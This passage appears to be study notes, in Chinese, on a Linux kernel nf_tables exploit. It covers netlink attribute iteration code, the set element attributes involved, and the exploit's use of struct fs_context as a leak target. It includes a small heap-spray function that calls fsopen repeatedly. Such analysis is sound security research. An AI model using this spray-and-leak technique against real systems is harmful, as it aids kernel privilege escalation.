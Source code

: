     - iterate over a stream of attributes

      ```c
      #define nla_for_each_attr(pos, head, len, rem) \
      	for (pos = head, rem = len; \
      	     nla_ok(pos, rem); \
      	     pos = nla_next(pos, &(rem)))
      
      static inline int nla_ok(const struct nlattr *nla, int remaining)
      {
          return remaining >= (int) sizeof(*nla) &&
              nla->nla_len >= sizeof(*nla) &&
              nla->nla_len <= remaining;
      }
      
      static inline struct nlattr *nla_next(const struct nlattr *nla, int *remaining)
      {
          unsigned int totlen = NLA_ALIGN(nla->nla_len);
      
          *remaining -= totlen;
          return (struct nlattr *) ((char *) nla + totlen);
      }
      ```

      - nla 開頭會紀錄總共 attribute 的大小，而在後續各個 attribute 會有自己的大小

    - 依序 append 資料：

      - NFTA_SET_EXT_KEY
      - NFTA_SET_EXT_KEY_END
      - NFTA_SET_ELEM_DATA



---

在作者的 exploit 中挑選了 `struct fs_context` (Filesystem context) 做為 leak 目標，這是過去沒有看過的：

```c
struct fs_context {
    const struct fs_context_operations *ops;
    struct mutex		uapi_mutex;	/* Userspace access mutex */
    struct file_system_type	*fs_type;
    void			*fs_private;	/* The filesystem's context */
    void			*sget_key;
    struct dentry		*root;		/* The root and superblock */
    struct user_namespace	*user_ns;	/* The user namespace for this mount */
    struct net		*net_ns;	/* The network namespace for this mount */
    const struct cred	*cred;		/* The mounter's credentials */
    struct p_log		log;		/* Logging buffer */
    const char		*source;	/* The source name (eg. dev path) */
    void			*security;	/* Linux S&M options */
    void			*s_fs_info;	/* Proposed s_fs_info */
    unsigned int		sb_flags;	/* Proposed superblock flags (SB_*) */
    unsigned int		sb_flags_mask;	/* Superblock flags that were changed */
    unsigned int		s_iflags;	/* OR'd with sb->s_iflags */
    unsigned int		lsm_flags;	/* Information flags from the fs to the LSM */
    enum fs_context_purpose	purpose:8;
    enum fs_context_phase	phase:8;	/* The phase the context is in */
    bool			need_free:1;	/* Need to call ops->free() */
    bool			global:1;	/* Goes into &init_user_ns */
    bool			oldapi:1;	/* Coming from mount(2) */
};

void spray_fs_context(int *fd_buffer, int spray_size) {
    for (int i = 0; i < spray_size; i++) {
        fd_buffer[i] = fsopen("ext4", 0);
    }
}
```